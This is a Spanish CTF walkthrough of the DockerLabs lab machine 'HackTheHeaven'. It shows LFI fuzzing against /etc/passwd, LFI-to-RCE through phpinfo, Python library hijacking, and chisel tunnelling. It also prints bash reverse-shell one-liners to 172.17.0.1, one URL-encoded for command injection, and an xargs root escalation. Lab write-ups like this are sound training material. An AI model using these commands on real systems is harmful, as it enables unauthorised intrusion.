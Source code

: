 ```yaml
---
title: HackTheHeaven - DockerLabs
published: true
categories: DockerLabs
---
```


 
| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  | Difícil     | AlbertoMD3        | 


## Reconocimiento

Primero, observamos que el puerto 80 está abierto.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/18af8339-4533-41cd-a2a9-79171e99751a)

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/305d8daa-2ffc-4ba3-ade5-0edcb76c3f0d)

Al no encontrar nada relevante, realizamos una búsqueda con `gobuster` para descubrir posibles recursos adicionales. También encontramos un `info.php`, pero no revela información importante.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/415d4514-e42d-4847-8691-fcb4d897711a)

Descubrimos un archivo `idol.html` y procedemos a investigar su contenido.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/a000151b-e2e7-4104-8b77-265b32dcb8d1)

La página web contiene un formulario y al hacer clic en el botón, nos redirige a otra página.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/42a7230c-b56d-49d5-a6e4-36bd88039f2b)

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/54150e46-157d-4749-8010-69958601cb9d)

Esta página parece susceptible a un ataque LFI (Local File Inclusion). Sin embargo, necesitamos determinar el parámetro correcto para la inyección. Utilizamos `wfuzz` para hacer fuzzing y encontrar dicho parámetro.

```bash
wfuzz -c --hh=53 --hc=404 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/clouddev3lopmentfile.php?FUZZ=../../../../../../../../../../.../../../etc/passwd"
```

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/96d1ea0e-05e7-4e07-9247-670cb1767e74)

Encontramos que el parámetro es filename.

Ahora podemos leer archivos del sistema.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/39e054ab-a2aa-4315-b16c-f011dc1d1149)

## Escalada a RCE

Al investigar, descubrimos que podemos convertir un LFI en un RCE. Nos basamos en una guía de HACKTRICKS para lograrlo: LFI to RCE via phpinfo.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/ddefc507-946f-42fa-a040-380f9881daa8)

Vamos a comprobar si es posible.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/48079e67-94c4-4e62-b428-c08115916558)


En el script descargado de HACKTRICKS, añadimos nuestra reverse shell en la variable payload. Cambiamos el archivo objetivo a info.php.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/1a26653e-92b2-43d8-8abe-d3f1926f7834)

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/85fbad4a-b3fe-40f1-88f3-0f32cfea8300)


Modificamos la URL en la sección correspondiente del script.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/d2216996-b557-47f2-b566-aa8f7e778cd2)


(Esta parte fue gracias a Mario :P me estaba volviendo loco con este script).

Ejecutamos el script.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/97fb1b5a-f502-475d-98c4-104fd82e20f0)

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/2be9824f-b213-4a26-9522-71b99f5ad3f6)

¡Ya estamos dentro!
Escalada de Privilegios

Hacemos un ls en el directorio home y encontramos lo siguiente:

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/2068b663-941c-448b-9d59-2f7464b1a517)


Vemos el texto megustaelfallout, así que probamos acceder como xerosec usando esa contraseña, ya que es el propietario del archivo.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/e3a7c2f3-899a-4adc-92d7-f5afe4058223)


Efectivamente, ahora estamos dentro. Vamos al directorio tmp para ver el script.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/0dfc476b-f31b-4d0e-9d91-3a6d0e3c60e8)


Este es el script. Si observamos, importa hashlib directamente, lo que presenta una vulnerabilidad. Si creamos un archivo llamado hashlib.py en el mismo directorio con código Python, este se ejecutará primero debido a la función import.

Además, al hacer un sudo -l, vemos que podemos ejecutar ese script como mario.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/c6ddf403-ac13-457d-8b61-7424e8ad02a1)


Creamos un script que ejecute whoami. Si funciona, debería devolver mario.

Lo ejecutamos y...

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/f0e66860-687e-4de4-a5df-17a2046f7f23)

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/d7a12c27-7eae-43f7-ba08-6bd05a9ae06b)

Efectivamente, whoami devuelve mario. Ahora podemos hacer que ejecute una reverse shell para escalar a mario.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/26b858f2-3ce1-4106-92c7-53d15ceaa517)

Esto nos da una reverse shell como mario.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/c15facab-a58c-4e04-89a2-7f6509555e12)

En el escritorio de mario, vemos un archivo que dice lo siguiente:

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/82ccca06-3df4-4722-b7f1-283d0be6711a)

Miramos los procesos en ejecución en la máquina.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/374d76e8-01f9-44f4-9de0-aabb5f2aaaac)


Vemos que s4vitar está ejecutando algo en localhost:9999. Vamos a investigar.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/174d11fc-b7d5-4140-9ebe-ab53e086174e)


Si hacemos un curl, vemos que nos pide un comando. Vamos a intentar concatenar lo que dice en el archivo del escritorio.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/c4cbc42f-b178-40f7-b20a-de78ff7582c0)


Podemos ejecutar comandos desde la terminal. Vamos a pasarle el típico one-liner para hacer una reverse shell:

```
bash -i >& /dev/tcp/172.17.0.1/4333 0>&1
```
Nos llega la conexión, pero no podemos conectarnos directamente. Vamos a descargar chisel en la máquina atacante

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/0e546861-8ba1-4fdc-84da-b64c9d7e6f12)

- Maquina atacante
```
./chisel server --reverse 1234
```
![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/fb5da496-b18f-4886-8f0b-1c8518eb8766)

Nos quedamos a la escucha para el túnel que vamos a crear.


Usamos python para subir el archivo de chisel a la máquina víctima en la carpeta tmp.

- Maquina Victima
```
./chisel client 172.17.0.1:8080 R:9999:127.0.0.1:9999
```
![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/43b0b7fa-8a39-416a-a362-527385c0eae4)


Le decimos a chisel que el tráfico de localhost en el puerto 9999 lo redirija a la IP 172.17.0.1. Ahora, si ponemos en el navegador de la máquina atacante localhost:9999, veremos la página web de la máquina víctima de s4vitar.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/519a2f27-dd75-4a64-bfb2-5bdedc82ebbe)


Pasamos el one-liner de la reverse shell cambiando los & por %26 para que funcione:

```
bash -c "bash -i >%26 /dev/tcp/172.17.0.1/4333 0>%261"
```

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/bbfee5f3-6b4c-4f43-803f-b7b65af25c61)

Ahora hacemos un sudo -l.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/6aa881d8-67f8-4c87-9b14-d9e9472615b2)


Podemos ejecutar xargs como root. Usamos gtfobins para encontrar cómo escalar privilegios con xargs.

```
./xargs -a /dev/null sh -p
```

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/ebbc0488-556d-4698-a906-e4d4a1a1cda9)

¡Nos convertimos en root!

